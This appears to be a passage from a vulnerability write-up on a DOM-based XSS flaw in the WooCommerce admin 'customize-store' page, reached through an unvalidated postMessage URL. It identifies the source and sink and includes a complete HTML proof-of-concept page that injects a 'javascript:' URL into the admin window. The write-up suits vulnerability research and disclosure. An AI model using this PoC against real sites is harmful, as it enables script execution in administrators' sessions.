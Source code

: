 
👉 `alert()` is triggered. Using the browser debugger I checked which file `5292.js` was loaded from in the browser.

![5292.js từ debug của browser](debug1.png)
*5292.js from browser debugger*

### Sources & Sinks

* **Source**: `event.data` from `window.postMessage` (specifically `event.data.url`)
* **Sink**: `window.location.href = event.data.url`

## Exploit

### Proof of Concept (PoC)

* Create a webpage with the following source:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <button id="openPopup">Open Popup</button>

    <script>
        let popup;

        document.getElementById("openPopup").addEventListener("click", () => {
            // Open a popup
            popup = window.open(
                "http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store", 
                "popupWindow",
                "width=400,height=300"
            );

            // Wait for the popup to load
            const interval = setInterval(() => {
                if (popup && !popup.closed) {
                    // Send message
                    popup.postMessage({ type: 'navigate', url: 'javascript:alert("phu0c ph4m")' }, '*');
                    clearInterval(interval);
                }
            }, 5000);
        });
    </script>
</body>

</html>
```
